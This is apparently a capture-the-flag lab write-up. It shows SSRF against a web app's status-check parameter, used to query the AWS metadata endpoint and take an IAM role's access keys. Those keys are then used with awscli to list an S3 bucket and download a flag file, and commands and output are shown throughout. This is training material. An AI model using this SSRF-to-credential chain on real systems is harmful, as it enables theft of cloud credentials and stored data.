






### Scenario

Rumors are swirling on hacker forums about a potential breach at Huge Logistics. Your team has been monitoring these conversations closely, and Huge Logistics has asked you to assess the security of their website. Beyond the surface-level assessment, you're also to investigate links to their cloud infrastructure, mapping out any potential risk exposure. The question isn't just if they've been compromised, but how deep the rabbit hole goes.

  

### Things provided in this lab 

|     |     |
| --- | --- |
| IP Address | 52.6.119.121 |

  

### Solution

Firstly, we need to add the following IP address `52.6.119.121`  provided in the lab objective to `/etc/hosts` with domain name as `hugelogistics.pwn` 

  

```sh
Downloads % cat /etc/hosts
##
# Host Database
#
# localhost is used to configure the loopback interface
# when the system is booting.  Do not change this entry.
##
127.0.0.1	localhost
255.255.255.255	broadcasthost
::1             localhost
52.6.119.121    hugelogistics.pwn
```

  

Once after adding it, our application will get loaded and in that you have a functionality called “**Status checks”** where you can check the availability of the site you have 

  

In this case, you can see that in the `name` parameter we have passed the domain name as `hugelogisticsstatus.pwn` and it says all systems are operational 

  

  

  

But when you enter something like `example.com` and the website will get rendered in the current page... Kinda looks like interesting 

  

   

  

As we always do, when we enter the AWS metadata address `169.254.169.254` on to the `name` parameter and it works.. SSRF works 

  

   

  

Now in the same `name` parameter, when you continously go forward.. your payload will end up something like `169.254.169.254/latest/meta-data/iam/security-credentials` and where a IAM role called `MetaPwnedS3Access` visible in the web page 

  

   

  

Adding the IAM role and final payload would look something like this `169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access` and where it reveals the access key and secret key of IAM role called `MetapwnedS3Access` 

  

  

Once after setting up the credentials, Found out that this is assumed role as `MetapwnedS3Access`⁠ linked to the instance with following ID: `i-0199bf97fb9d996f1`⁠ 

  

```sh
Downloads % aws sts get-caller-identity --profile pwnedlabs-3
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```

  

Next up what else we can do with these credentials, in order to understand that we know these credentials will have access s3 bucket as the name suggests 

  

All the images on this website are imported through the following s3 bucket: `huge-logistics-storage` 

  

    

  

Now we can try to enumerate the s3 bucket using `aws s3` module in `awscli` and with the following command: `aws s3 ls s3://huge-logistics-storage --profile pwnedlabs-3`⁠ and we can list the files and since it is a CTF we will have a read and write access to the submit 

  

```sh
Downloads % aws s3 ls s3://huge-logistics-storage --profile pwnedlabs-3
PRE backup/
PRE web/
```

  

In the `web` folder, we didn’t find anything and skipped it.. But in the `backup` folder we found the `flag.txt` 

  

```sh
Downloads % aws s3 ls s3://huge-logistics-storage/backup/ --profile pwnedlabs-3
2023-06-01 03:44:05          0 
2023-06-01 03:44:47       3717 cc-export2.txt
2023-06-01 20:08:27         32 flag.txt
```

  

In order to copy the `flag.txt` from s3 bucket to local, we can run the following command: `aws s3 cp s3://huge-logistics-storage/backup/flag.txt ./ --profile pwnedlabs-3`⁠ 

  

```sh
Downloads % aws s3 cp s3://huge-logistics-storage/backup/flag.txt ./ --profile pwnedlabs-3
download: s3://huge-logistics-storage/backup/flag.txt to ./flag.txt
```

  

Now copy the contents of `flag.txt` and submit it as solution and that solves the lab